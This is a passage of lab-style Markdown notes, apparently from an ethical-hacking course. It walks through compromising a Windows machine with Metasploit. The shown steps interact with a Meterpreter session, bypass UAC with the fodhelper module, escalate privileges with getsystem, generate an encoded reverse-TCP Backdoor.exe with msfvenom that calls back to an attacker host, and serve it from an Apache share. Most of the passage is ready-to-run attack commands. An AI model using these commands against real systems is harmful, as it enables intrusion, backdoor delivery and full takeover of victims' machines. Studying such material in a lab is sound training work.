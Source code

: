 - Meterpreter Session:
   - In attacker machine, see the Meterpreter session.
   - Interact with the session by typing:
     ```bash
     sessions -i 1
     ```

##### Bypassing UAC and Privilege Escalation

- Backgrounding and UAC Bypass:
    - Background the Meterpreter session with `background`.
    - Use the `bypassuac_fodhelper` exploit with:
      ```bash
      use exploit/windows/local/bypassuac_fodhelper
      ```

- Configuring Payload for UAC Bypass:
    - Set the session with `set SESSION 1`.
    - Set the payload with:
      ```bash
      set payload windows/meterpreter/reverse_tcp
      ```

- Executing UAC Bypass:
    - Configure LHOST with `set LHOST 10.10.1.13`.
    - Execute the exploit with `exploit`.

- Checking Elevated Privileges:
    - Check the Meterpreter user ID with `getuid`.
    - Elevate privileges with `getsystem -t 1`.

- Final Note:
    - Observe elevated privileges and continue with further assessments.

---

#### Hack a Windows Machine using Metasploit and Perform Post-Exploitation using Meterpreter

- The Metasploit Framework is a powerful tool for developing and executing exploit code against remote target machines. It provides a modular penetration testing platform in Ruby, allowing the writing, testing, and execution of exploit code. Meterpreter, an attack payload within Metasploit, offers an interactive shell to explore and execute code on the target machine.

##### Steps

**Generating Malicious Payload and Sharing it**

- Generate Backdoor.exe using Metasploit:
   ```bash
   msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -e x86/shikata_ga_nai -b "\x00" LHOST=10.10.1.13 -f exe > /home/attacker/Desktop/Backdoor.exe
   ```

- Share Backdoor.exe with the target machine:
   ```bash
   mkdir /var/www/html/share
   chmod -R 755 /var/www/html/share
   chown -R www-data:www-data /var/www/html/share
   cp Backdoor.exe /var/www/html/share/
   service apache2 start
   ```

